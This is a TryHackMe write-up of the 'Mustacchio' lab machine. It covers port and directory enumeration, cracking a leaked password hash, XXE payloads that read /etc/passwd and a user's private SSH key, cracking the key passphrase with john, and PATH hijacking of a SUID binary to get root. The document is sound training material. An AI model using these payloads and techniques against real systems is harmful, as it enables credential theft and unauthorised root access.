# TryHackMe - Mustacchio
###### Writeup by: raphel

##### Room Name: Mustacchio
##### Difficulty: Easy
##### Description: Easy boot2root Machine

### Enumeration

I start with a rustscan on the target to quickly enumerate all open ports.  I use rustscan for my initial scans because it's quick and scans all 65565 
`rustscan -a <ip>`


I see that ports 22, 80, and 8765 are open.  After running rustscan, I like to do an nmap scan on the discovered ports to learn more about them.
`nmap -sC -sV -p 22,80,8765 <ip> -o scan.txt`


It looks like port 80 and 8765 are serving http, one a home page, and one a login page.



I think the login page will be my focus, but I'll run a directory scan for both ports just to see if I find anything interesting.
`gobuster dir -u http://<ip> -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`


`gobuster dir -u http://<ip>:8765 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`


A few directories are found.  The ones that stick out to me are **/custom** on the port 80 web server and **/auth** on the port 8765 web server.


I'm unable to access the **/auth** page, so it doesn't seem likely to be an entry-point.

Looking at the **/custom** directory, there's additional paths for css and js.  I want to check out the js path, maybe there will be scripts in there that show me how logins/authentication are handled.




Unexpectedly, I find a backup file named **users.bak**.  I'm going to download it and see if there's any credentials in it.


Nice! A username and password hash.  I'll use CrackStation to uncover the password.


Easy day. I wonder if these credentials will work on the port 8765 login page.

### Logging into web with Gathered Credentials


It worked! It brought me to **/home.php** which has a page to add a comment on the website.  I wonder if I can use this for an injection to spawn a reverse shell or expose critical information.

Inspecting the source of the page, I find an exposed file path.


Downloading and reading the file, I find that the comment upload box XML encodes the input.


### Exploitation

After doing [some research](https://portswigger.net/web-security/xxe), I find that this may be vulnerable to an XML External Entity (XXE) attack.

Additionally, I found this in the HTML source for the comment upload page.

Maybe I can use an XXE attack to retrieve Barry's private SSH key and log in with it.

Using this payload in the comment box:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&test;</com>
</comment>
```

The page returns the contents of /etc/passwd


I'm going to modify the payload to try to retrieve Barry's private SSH key.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&test;</com>
</comment>
```


Barry's private SSH key! It's formatted pretty awfully.

I created a text file named barry_id_rsa and formatted it properly.  I also gave it the correct permissions so the SSH client would accept the key.


Before I try to login with just they key, I'm going to see if there's a passphrase associated with the key using john.
`ssh2john barry_id_rsa > pass.hash`
`john --wordlist=/usr/share/wordlists/rockyou.txt pass.hash`



### Logging into SSH with Stolen SSH Key and Passphrase

Great, I got a passphrase, now I can login via SSH using Barry's SSH key.
`ssh -i barry_id_rsa barry@<ip>`


User flag acquired.



### Privilege Escalation

Looking around the filesystem, I find another user, **joe**, that has an executable named **live_log**.



Luckily, this executable has the SUID bit set. I wonder if I can leverage this.
`find / -user root -perm -4000 -print 2>/dev/null`



I'll use strings on the executable to see if I can get any information on how the program works.
`strings live_log`



I see that the program uses the tail binary, but doesn't use the absolute path for it. I'm going to try to create my own tail binary that spawns a root shell.



I also edit the PATH variable so that when I run the program it uses the tail binary I created in the /tmp directory.

Now when I run **live_log**, I get a root shell.



Root flag acquired.



### Conclusion
Mustaccio required me to enumerate directories on a web server in order to find a hidden file that exposed login credentials for a web app that was vulnerable to XML Entity Injection (XXE).  Leveraging this vulnerability, I was able to steal a user's private SSH key and crack the passphrase for the key using johntheripper.  After logging in via SSH using the stolen key, I was able to escalate my privileges using an executable that utilitzed binaries that didn't include absolute paths by creating a phony binary that spawned a root shell.

The largest obstacles for me taking on this room were finding the vulnerbitlity in the web app.  I'm not very knowledgeable on XML vulnerabilities, or XML in general.  Additionally, crafting a payload that retrieved the SSH key was difficult as it required some modifications to payloads that I found in cheat sheets online.

Another obstacle I faced was privilege escalation.  I knew that I would use the **live_log** executable for privilege escalation, I just wasn't sure how to properly leverage it.  Finding out that it used the `tail` binary didn't take too long, but figuring out that I had to edit the PATH variable was a problem I sat on for a while.
